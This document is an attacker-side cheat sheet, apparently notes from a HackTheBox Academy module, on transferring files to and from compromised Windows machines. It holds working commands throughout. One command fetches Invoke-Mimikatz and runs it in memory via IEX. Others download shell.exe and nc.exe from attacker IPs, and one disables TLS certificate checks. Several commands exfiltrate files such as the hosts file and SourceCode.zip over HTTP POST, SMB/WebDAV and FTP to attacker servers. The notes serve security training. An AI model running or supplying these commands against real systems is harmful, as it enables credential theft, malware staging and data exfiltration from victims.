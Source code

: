 # Windows

## Download

### Copy\&Paste

This works by encoding the file as base64 and copying it to the destination and decode the string back to file. This might come in handy.

#### Attacker > Target

```bash
kali@kali $ cat <file> |base64 -w 0;echo
```

```powershell
PS C:\> [IO.File]::WriteAllBytes("<fullpath&name>", [Convert]::FromBase64String("<base64 contents>"))
```

#### Target > Attacker

```powershell
PS C:\> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

```bash
kali@kali $  echo <base64 contents> | base64 -d > hosts
```

> It is worth noting that the further steps are requried for file contents validation to ensure that the transferred file are moved witout any corruption.

```bash
kali@kali $ md5sum <file>
```

```powershell
PS C:\> Get-FileHash <file> -Algorithm md5
```

### PS File download

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFile('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')

PS C:\> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFileAsync('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')
```

### Fileless Method

Downloads the payload and excecute it directly in memory using **Invoke-Expression** cmdlet 'IEX'

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\> # OR pipeline input
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Invoke-WebRequest | iwr | curl | wget

Invoke-WebRequest has multiple aliases such as iwr, curl, and wget.

```powershell
PS C:\> Invoke-WebRequest http://10.10.14.220/shell.exe -OutFile shell.exe
```

### Errors in PowerShell

1. If the following error occurs, bypass using `-UserBasicParsing.`

![Internet Explorer first-launch prevents the download](https://academy.hackthebox.com/storage/modules/24/IE\_settings.png)

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

2. SSL/TLS secure channel error which could be bypassed using following command.

> Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

```powershell
PS C:\> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Server

On the **attacker**'s machine, create a smbserver using `impacket` package.

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbsharepower
```

On the **target**, run:

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\> copy \\&#x3C;ip>\share\nc.exe
</strong><strong>C:\> #copy \\10.10.14.220\share\nc.exe
</strong></code></pre>

**If Windows block unauthenticated guest.**

On the **attacker**'s machine, create SMB server with **user** and **pass**

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbshare -user <user> -password <pass>
```

On the **target** machine, mount and copy the file.

<pre class="language-sh"><code class="lang-sh"><strong>C:\> net use n: \\&#x3C;ip>\&#x3C;share dir> /user:&#x3C;user> &#x3C;pass>
</strong>C:\> copy n:\nc.exe
</code></pre>

> Can try to copy the file directly using the `copy \\<ip>\share\nc.exe` command. but copying this command might result in error, try mount and copy instead.

### FTP Server

On the **attacker**'s machine, create a ftp server using Python3's `pyftpdlib` module.

```bash
kali@kali $ sudo python3 -m pyftpdlib --port 21
```

On the **target** machine, mount and copy the file.

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'ftp-file.txt')
```

## Upload

### PS uploads (Python uploadserver)

To upload file, we need a server.

On the **attacker**'s machine, create a upload server using Python3's `uploadserver` module.

```bash
kali@kali $ python3 -m uploadserver
```

On the **target** machine, run

```powershell
PS C:\> Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hostsp
```

### PS uploads (Web based)

**Attacker** creates a netcat listener.

```bash
kali@kali $ nc -lvnp 8000
```

**Target** sends file throught HTTP POST method.

```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

**Attacker** decodes the stream back to file.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ echo &#x3C;base64> | base64 -d -w 0 > hosts
</strong></code></pre>

### SMB Server

On the **attacker**'s machine, create a upload server using Python3's `wsgidav` module.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
</strong></code></pre>

On the **target** machine, run

<pre class="language-shell-session"><code class="lang-shell-session"><strong>C:\> dir \\192.168.49.128\DavWWWRoot
</strong>C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
</code></pre>

> Notice that it this method the `impacket-smbserver` was not used due to the port445 restrictions. Feel free to use it if there is no restriction.

### FTP Uploads

On the **attacker**'s machine, create a upload server using Python3's `pyftpdlib` module. but this time `--write` attribute is specified to allow client (target) to upload files.

```bash
kali@kali $ python3 -m pyftpdlib --port 21 --write
```

On the **target** machine, run

```
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```



## Resources

* Most of the commands and contents are from **HTB academy lab!**

